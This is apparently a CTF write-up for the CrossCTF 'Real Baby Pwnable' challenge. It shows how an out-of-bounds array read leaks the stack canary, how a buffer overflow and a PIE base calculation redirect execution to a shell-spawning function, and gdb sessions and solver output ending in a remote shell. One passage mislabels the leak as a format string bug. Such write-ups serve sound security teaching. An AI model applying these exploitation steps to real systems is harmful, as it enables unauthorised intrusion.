



# Real Baby Pwnable


>  This is an actual baby pwn challenge.
>  
> nc ctf.pwn.sg 1500
>  
> Creator - amon (@nn_amon

We are given a binary file `realbabypwn`. Our goal is to get ourselves a shell. To do so, we need to identify how we can get our input to be executed somehow. We know from the output below that we are dealing with a non-stripped 64bit executable. 
```
$ file realbabypwn
realbabypwn: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a7db9174e237f50d738355e6babd8a80385335e3, not stripped
```


### Disassembling the program

I use the free versions of Binaryninja and IDA, which support only 32-bit and 64-bit binaries respectively. Since this binary is 64 bits, I used IDA to display the control flow graph. I find that control flow graphs paint a better picture of how a program runs than say `objdump` or `gdb`.

There are 3 functions in this program.
1. `main`
2. `fibonacci`
3. `babymode`


The function `babymode` does nothing more than call `system('/bin/sh')`. This is exactly the function we want to call.



We also know that `main` just calls the `fibonacci`. `fibonacci` does all the heavy lifting here, so we know the vulnerability must be inside it. The picture below is the vulnerable portion of the function. 



Instead of calculating the value of the fibonacci manually each time the user enters a value, the program extracts it from an array. `fibonacci_array` is the array itself. `user_number` is the number the user inputs to choose which fibonacci number to be displayed. The assembly shows that the number that gets printed by `printf` is `fibonacci_array[user_number]`.
```
mov eax, [rbp+user_number]
cdqe
mov rdx,[rbp+rax*8+fibonacci_array]
```

There is no input sanitation, so we can input any value we want into `user_number`, essentially giving us the opportunity to print any QWORD in memory we want. So, what do we want to print?

The program is protected from stack smashing by a stack canary. If we want to redirect program execution to `babymode`, we have to override a return address somehow. That means we need to know the stack canary's value so the program doesn't detect the stack smashing. How, then, do we print the stack canary's value?



> EDIT: I realised that the variable at `rbp-0x908` should be the 2nd element of `fibonacci_array` (ie `fibonacci_array[1]`).

We know the array's address is `rbp-0x910`. The stack canary is located at `rbp-0x8`, which is 289 QWORDs away from the array's starting address. If we were to treat our stack as a giant array starting from `rbp-0x908`, the stack canary would be `fibonacci_array[289]`. 

There is also another vulnerability. If the user responds `'n'` to the question "Want to learn another Fibbonaci number", the program reads 0x200 characters into a character array starting at location `rbp-0x110`. The return address of `fibonacci` is located in memory address `rbp+0x8`. Thus, we have a way to overwrite the return address to change program execution.


### Exploring the first vulnerability

We have a theory that we can print out the stack canary's value. So let's test it out in `gdb`.
Let's set a break point at `mov rax, QWORD PTR fs:0x28`, where `rax` will contain the value of the stack canary. Then, we shall print out the value at `fibonacci_array[289]`. If we are correct, we should expect the values to be the same. 

```
(gdb) disassemble fibonacci
Dump of assembler code for function fibonacci:
   0x00000000000009c3 <+0>:	push   rbp
   0x00000000000009c4 <+1>:	mov    rbp,rsp
   0x00000000000009c7 <+4>:	sub    rsp,0x920
   0x00000000000009ce <+11>:	mov    rax,QWORD PTR fs:0x28
   0x00000000000009d7 <+20>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000000009db <+24>:	xor    eax,eax
[...]
(gdb) b *0x00000000000009d7
Breakpoint 1 at 0x9d7
```

We've set the breakpoint, so let's get started! Wait... Why do we have an error?
```
(gdb) start
Temporary breakpoint 2 at 0xb25
Starting program: /home/solomonbstoner/Desktop/CTF Guides/xctf 2018/realbabypwn 
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x9d7
```


I have no idea why the error occured. My guess is it has something to do with Position Independent Executable. Turns out, we have to start the program first so that we can include the break points. The output below shows that `0x5f13cebfc9906900` is the true value of the stack canary.

```
(gdb) disassemble fibonacci
Dump of assembler code for function fibonacci:
   0x00005555555549c3 <+0>:	push   rbp
   0x00005555555549c4 <+1>:	mov    rbp,rsp
   0x00005555555549c7 <+4>:	sub    rsp,0x920
   0x00005555555549ce <+11>:	mov    rax,QWORD PTR fs:0x28
   0x00005555555549d7 <+20>:	mov    QWORD PTR [rbp-0x8],rax
   0x00005555555549db <+24>:	xor    eax,eax
[...]
Quit
(gdb) b *0x00005555555549d7
Breakpoint 5 at 0x5555555549d7
(gdb) c
Continuing.

Breakpoint 5, 0x00005555555549d7 in fibonacci ()
(gdb) p/x $rax
$2 = 0x5f13cebfc9906900
```

With our input `"289"`, the number `6851046781276416256` is printed out.
```
(gdb) c
Continuing.
Which fibbonacci offset did you want to look up? 289
Fibbonaci Number 289: 6851046781276416256
```

Let's convert it to hex. It is the stack canary's value.
```
>>> hex(6851046781276416256)
'0x5f13cebfc9906900'
```


### Exploiting the vulnerabilities

Our input needs to be in the following format to exploit the 2 vulnerabilities above.
```
< padding of 0x108 characters > < stack canary > < padding of 0x8 characters > < address of babymode >
```

As the program has PIE enabled, the address of `babymode` will change with each execution. Therefore, we need to find the base address. We can find the run-time return address of `fibonacci` with the format string vulnerability. With that and its address offset before execution, we can find the base address with the pseudocode `base_addr = fib_ret_addr - fib_addr_offset`. The run-time address of `babymode` will simply be `babymode_addr = babymode_offset + base_addr`.

My solution is in the file `soln_for_real_baby_pwnable.py.` The output of the script is below.


```
$ python2 soln_for_real_baby_pwnable.py 
[*] '/home/solomonbstoner/Documents/Cr055CTF2018/Pwn/realbabypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x9b0
[+] Opening connection to ctf.pwn.sg on port 1500: Done
Stack canary value: 0xd40a27b226f17a00
Fibonacci return address: 0x558672cd2b92
rbp of <main>: 0x7ffe11a8d160
Base address: 0x558672cd2000
[*] Switching to interactive mode
$ whoami
realbabypwnuser
$ find . -iname "flag"
find: './root': Permission denied
find: './var/lib/apt/lists/partial': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/rsyslog': Permission denied
find: './var/cache/ldconfig': Permission denied
find: './var/cache/apt/archives/partial': Permission denied
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
find: './proc/1/fd': Permission denied
find: './proc/1/map_files': Permission denied
find: './proc/1/fdinfo': Permission denied
find: './proc/1/ns': Permission denied
./home/realbabypwnuser/flag
$ cat ./home/realbabypwnuser/flag
CrossCTF{It3r4t1ve_0ver_R3curs1v3}
$  
```

The challenge is solved.
